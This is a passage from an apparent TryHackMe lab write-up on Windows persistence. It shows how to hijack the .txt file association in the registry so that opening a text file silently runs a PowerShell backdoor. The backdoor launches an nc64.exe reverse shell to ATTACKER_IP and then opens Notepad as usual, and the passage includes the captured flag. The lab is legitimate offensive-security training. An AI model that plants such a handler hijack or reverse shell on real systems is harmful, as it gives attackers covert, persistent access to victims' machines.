 ![File extensions in registry](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/3ae1b8356b38a349090e836026d6d480.png)

We can then search for a subkey for the corresponding ProgID (also under `HKLM\Software\Classes\`), in this case, `txtfile`, where we will find a reference to the program in charge of handling .txt files. Most ProgID entries will have a subkey under `shell\open\command` where the default command to be run for files with that extension is specified:

![ProgID in registry](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/c3565cf93de4990f41f41b25aed80571.png)

In this case, when you try to open a .txt file, the system will execute `%SystemRoot%\system32\NOTEPAD.EXE %1`, where `%1` represents the name of the opened file. If we want to hijack this extension, we could replace the command with a script that executes a backdoor and then opens the file as usual. First, let's create a ps1 script with the following content and save it to `C:\Windows\backdoor2.ps1`:

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

Notice how in Powershell, we have to pass `$args[0]` to notepad, as it will contain the name of the file to be opened, as given through `%1`.

Now let's change the registry key to run our backdoor script in a hidden window:

![backdoored ProgID](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/f7ed25a701cf20ea85cf333b20708ffe.png)

Finally, create a listener for your reverse shell and try to open any .txt file on the victim machine (create one if needed). You should receive a reverse shell with the privileges of the user opening the file.

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/2cbaa6465407d8b45e363f24a33efec6.png)

Once you have backdoored the .txt file handler and spawned a reverse shell, run `C:\flags\flag6.exe` to get a flag!

Once we follow all steps and open a `.txt` file, we will receive a shell:

![](gitbook/cybersecurity/images/Pasted%20image%2020250515163552.png)

```
C:\flags>.\flag6.exe
THM{TXT_FILES_WOULD_NEVER_HURT_YOU}
```

## Abusing Services

***

Windows services offer a great way to establish persistence since they can be configured to run in the background whenever the victim machine is started. If we can leverage any service to run something for us, we can regain control of the victim machine each time it is started.

A service is basically an executable that runs in the background. When configuring a service, you define which executable will be used and select if the service will automatically run when the machine starts or should be manually started.
